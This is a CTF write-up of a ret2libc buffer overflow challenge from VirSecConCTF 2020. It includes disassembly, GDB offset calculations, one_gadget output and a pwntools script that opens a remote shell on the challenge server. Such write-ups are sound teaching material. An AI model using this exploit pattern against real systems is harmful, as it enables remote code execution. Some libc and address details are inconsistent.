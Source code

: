 ```yaml
---
layout: post
title: VirSecConCTF 2020 - Return Label
excerpt: "Writeup for ret2libc buffer overflow challenge from VirSecConCTF 2020"
categories: [pwn]
---
```


Return label was fourth pwn challenge from VirSecCon2020. The challenge provided a binary and a challenge server. Running the binary actually gives us the address for printf in libc and asks where we should send a package (seen below).

```
michael@computer:~/Documents/CTF/virseccon/retlab$ ./challenge 
Where should we send your package (printf is at 00007f580de11e80)? 

```


Running [radare2](https://www.radare.org/r/index.html) on the binary we can list out the functions (seen below).

```
[0x000006c0]> afl
0x00000000    2 25           sym.imp.__libc_start_main
0x00000638    3 23           sym._init
0x00000660    1 6            sym.imp.puts
0x00000670    1 6            sym.imp.printf
0x00000680    1 6            sym.imp.gets
0x00000690    1 6            sym.imp.fflush
0x000006a0    1 6            sym.imp.dlsym
0x000006b0    1 6            sub.__cxa_finalize_248_6b0
0x000006c0    1 43           entry0
0x000006f0    4 50   -> 40   sym.deregister_tm_clones
0x00000730    4 66   -> 57   sym.register_tm_clones
0x00000780    4 49           sym.__do_global_dtors_aux
0x000007c0    1 10           entry1.init
0x000007ca    1 118          sym.vuln
0x00000840    1 27           sym.main
0x00000860    4 101          sym.__libc_csu_init
0x000008d0    1 2            sym.__libc_csu_fini
0x000008d4    1 9            sym._fini
```

Seeing that there is no "flag" or "secret" functions we can safely assume that we will need to return to somewhere useful inside of libc. Looking at the code for main, we can see that it simply calls "vuln". 

```
[0x00000840]> pdf
            ;-- main:
/ (fcn) sym.main 27
|   sym.main ();
|           ; var int local_10h @ rbp-0x10
|           ; var int local_4h @ rbp-0x4
|              ; DATA XREF from 0x000006dd (entry0)
|           0x00000840      55             push rbp
|           0x00000841      4889e5         mov rbp, rsp
|           0x00000844      4883ec10       sub rsp, 0x10
|           0x00000848      897dfc         mov dword [local_4h], edi
|           0x0000084b      488975f0       mov qword [local_10h], rsi
|           0x0000084f      e876ffffff     call sym.vuln
|           0x00000854      b800000000     mov eax, 0
|           0x00000859      c9             leave
\           0x0000085a      c3             ret
```

Looking at the code for vuln, we can see a call to the dangerous "gets" function which does not check buffer size before writing (leading to a buffer overflow). Now that we have an idea of what we need to do we can use the [one_gadget](https://github.com/david942j/one_gadget) tool to find an offset that will give us RCE (seen below). Since the challenge did not provide a libc, I just used the libc on my Ubuntu 16.04 docker, and it worked!

```
michael@computer:~/Documents/CTF/virseccon/retlab$ one_gadget /lib/x86_64-linux-gnu/libc-2.27.so
0x45216 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

We will keep these in mind. Next I launched GDB to find the offset between libc base and printf. I also calculated the amount of characters we need to write before reaching the return pointer.

```
(gdb) x printf
0x7ffff7835800 <__printf>:	0xd8ec8148
(gdb) i proc mapping
process 9919
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555554000     0x555555555000     0x1000        0x0 /home/michael/Documents/CTF/virseccon/retlab/challenge
      0x555555754000     0x555555755000     0x1000        0x0 /home/michael/Documents/CTF/virseccon/retlab/challenge
      0x555555755000     0x555555756000     0x1000     0x1000 /home/michael/Documents/CTF/virseccon/retlab/challenge
      0x7ffff77e0000     0x7ffff79c7000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff79c7000     0x7ffff7bc7000   0x200000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
(gdb) c
Continuing.
Where should we send your package (printf is at 00007ffff7844e80)? 

AAAA

Breakpoint 2, 0x000055555555481f in vuln ()
(gdb) x/xg $rsp
0x7fffffffde10:	0x0000000041414141
(gdb) c
Continuing.

Breakpoint 3, 0x000055555555483f in vuln ()
(gdb) x/xg $rsp
0x7fffffffdea8:	0x0000555555554854
(gdb) q
michael@computer:~/Documents/CTF/virseccon/retlab$ python
Python 2.7.17 (default, Nov  7 2019, 10:07:09) 
[GCC 7.4.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x7ffff7835800 - 0x7ffff77e0000
350208
>>>  0x7fffffffdea8 - 0x7fffffffde10
152 
```

Okay, looks like we need to write 152 characters before the gadget address. We are finally ready to string everything together (as seen in the script below).

{% highlight python %}
from pwn import *

r = remote('jh2i.com', 50005)

printf = int(r.recvuntil('?').split(' ')[9][:-2], 16)

libc_base = printf - 350208

gadget = libc_base + 0x45216

payload = 'A' * 152 + p64(gadget)

r.sendline(payload)

r.interactive()
{% endhighlight %}

Running this gives us a prompt, which is a remote shell on the server!

```
michael@computer:~/Documents/CTF/virseccon/retlab$ python retlab.py 
[+] Opening connection to jh2i.com on port 50005: Done
[*] Switching to interactive mode
 
$ id
uid=8888(pwn) gid=8888(pwn) groups=8888(pwn)
$ cat flag.txt
LLS{r0p_1s_fun}
```

We can use the shell to obtain the flag `LLS{r0p_1s_fun}`. I hope this was helpful!